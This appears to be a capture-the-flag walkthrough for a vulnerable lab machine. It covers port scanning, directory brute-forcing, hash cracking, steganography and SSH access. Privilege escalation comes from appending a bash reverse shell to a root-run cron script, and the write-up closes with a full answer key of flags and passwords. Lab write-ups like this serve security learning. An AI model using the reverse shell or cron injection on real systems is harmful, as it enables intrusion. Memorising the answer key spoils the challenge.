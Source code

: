 ```yaml
---
Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
---
```


### rustscan

>port 80,6498,65524

`NGINX es un servidor web open source de alta performance que ofrece el contenido estático de un sitio web de forma rápida y fácil de configurar. Ofrece recursos de equilibrio de carga, proxy inverso y streaming, además de gestionar miles de conexiones simultáneas.`

### gobuster
```
gobuster dir --url http://10.10.60.150 -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x py,html,txt
```

>found hidden then whatever paths

### cyberchef

`ZmxhZ3tmMXJzN19mbDRnfQ==` *recipe from base64*

`a18672860d0510e5ab6699730763b250` *found 10.10.60.150:65524/robots.txt*
[md5hashing](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

`sourcode 10.10.60.150:65524` *flag{9fdafbd64c47471a8f54cd3fc64cd312}*

> its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu

==from base62 /n0th1ng3ls3m4tt3r==

### john

==hash found in hidden dir -> 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81==
```
john --wordlist=/home/kali/Downloads/easypeasy/easypeasy.txt hash --format=GOST
```

`mypasswordforthatjob`

### steghide

> download the matrix img

```
steghide extract -sf binarycodepixabay.jpg
```

```
cat secrettext.txt
```

>username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

`cyberchef -> boring:iconvertedmypasswordtobinary`

### ssh

```
ssh boring@10.10.60.150 -p 6498
```

> found synt{a0jvgf33zfa0ez4y} -> rot13 `flag{n0wits33msn0rm4l}`

### priv esc

```
cat /etc/crontab
```
>There is an interesting cron job being run .mysecretcronjob.sh every minute. We can see that it is being run by root.

```
ls -all /var/www/.mysecretcronjob.sh 
```

>-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh

[revshells](https://www.revshells.com/)
```
echo 'bash -i >& /dev/tcp/10.18.1.00/4444 0>&1' >> /var/www/.mysecretcronjob.sh
```

`kali machine`

```
rlwrap nc -nlvp 4444 
```

```
cd /root
```

```
ls -all
```
>found it .root.txt > flag{63a9f0ea7bb98050796b649e85481845}
- How many ports are open? *3*
- What is the version of nginx?*1.16.1*
- What is running on the highest port?*Apache*
- Using GoBuster, find flag 1.*flag{f1rs7_fl4g}*
- Further enumerate the machine, what is flag 2?*flag{1m_s3c0nd_fl4g}*
- Crack the hash with easypeasy.txt, What is the flag 3?*flag{9fdafbd64c47471a8f54cd3fc64cd312}*
- What is the hidden directory?*/n0th1ng3ls3m4tt3r*
- Using the wordlist that provided to you in this task crack the hash what is the password? *mypasswordforthatjob*
- What is the password to login to the machine via SSH?*iconvertedmypasswordtobinary*
- What is the user flag?*flag{n0wits33msn0rm4l}*
- What is the root flag? *flag{63a9f0ea7bb98050796b649e85481845}*



